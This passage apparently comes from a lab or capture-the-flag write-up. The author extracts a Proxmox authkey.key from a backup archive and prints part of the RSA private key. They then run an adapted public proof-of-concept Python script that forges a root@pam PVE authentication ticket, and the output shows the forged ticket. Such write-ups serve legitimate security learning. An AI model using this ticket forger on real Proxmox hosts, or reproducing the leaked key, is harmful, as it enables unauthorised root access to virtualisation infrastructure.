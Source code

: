 I found `authkey.key` in `pve-host-2023_04_15-16_09_46.tar.gz`, which, according to the post,  can be used to generate an authentication token for the `proxmox` APIs.
```
❯ cat etc/pve/priv/authkey.key
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA4qucBTokukm1jZuslN5hZKn/OEZ0Qm1hk+2OYe6WtjXpSQtG
EY8mQZiWNp02UrVLOBhCOdW/PDM0O2aGZmlRbdN0QVC6dxGgE4lQD9qNKhFqHgdR
Q0kExxMa8AiFNJQOd3XbLwE5cEcDHU3TC7er8Ea6VkswjGpxn9LhxuKnjAm81M4C
frIcePe9zp7auYIVVOu0kNplXQV9T1l+h0nY/Ruch/g7j9sORzCcJpKviJbHGE7v
OXxqKcxEOWntJmHZ8tVb4HC4r3xzhA06IRj3q/VrEj3H6+wa6iEfYJgp5flHtVA8
<SNIP>
```

I fetched the ticket generating portion of the [poc](https://starlabs.sg/blog/2022/12-multiple-vulnerabilites-in-proxmox-ve--proxmox-mail-gateway/#proof-of-concept), and changed `PMG` to `PVE`.
```python
import logging
import base64
import subprocess
import tempfile
import time

logging.basicConfig(format='%(asctime)s - %(message)s', level=logging.INFO)

def generate_ticket(username='root@pam', time_offset=-30):
    timestamp = hex(int(time.time()) + time_offset)[2:].upper()
    plaintext = f'PVE:{username}:{timestamp}'

    txt_path = tempfile.NamedTemporaryFile(delete=False)
    logging.info(f'writing plaintext to {txt_path.name}')
    txt_path.write(plaintext.encode('utf-8'))
    txt_path.close()

    logging.info(f'calling openssl to sign')
    sig = subprocess.check_output(
        ['openssl', 'dgst', '-sha1', '-sign', "authkey.key", '-out', '-', txt_path.name])
    sig = base64.b64encode(sig).decode('latin-1')

    ret = f'{plaintext}::{sig}'
    logging.info(f'generated ticket for {username}: {ret}')

    return ret

generate_ticket()
```

I ran the script and it generated a ticket for cookie.
```
❯ python generate_ticket.py
2025-10-10 19:57:46,958 - writing plaintext to /tmp/tmpe6pjv65g
2025-10-10 19:57:46,958 - calling openssl to sign
2025-10-10 19:57:46,979 - generated ticket for root@pam: PVE:root@pam:68E8F49C::BS1y0RlWtGS/bmUPvAck2kMwyIZU2xjLN1K6dfbK+QumMrFHj1xD9INCpJJBgXoQVVQ2kisoblDY52jucdgN4q6LTy1IRTGuxFrTZPrRBTlyejaRdXGrgm/ky8Gabj1S99tkbdPKaASFa9p877W5qnpFkVLZ6xrwpX3yYcV5YbI6oa/16OZmExdFbaNuVm/hZ4NC2sFiXor8dCMy8KlGMTenlAH63iIWQDTVqkYjuaTVGMObSWlYde67AgsoY+Q0OaJ/hUIFqYsC6uMiaD4D7WzwSKf1Wh7g1PW1To4SKTMohjz8A+bP1jheukdfzw/x4IREPrGK8NOB1oC0VyqpSw==
```
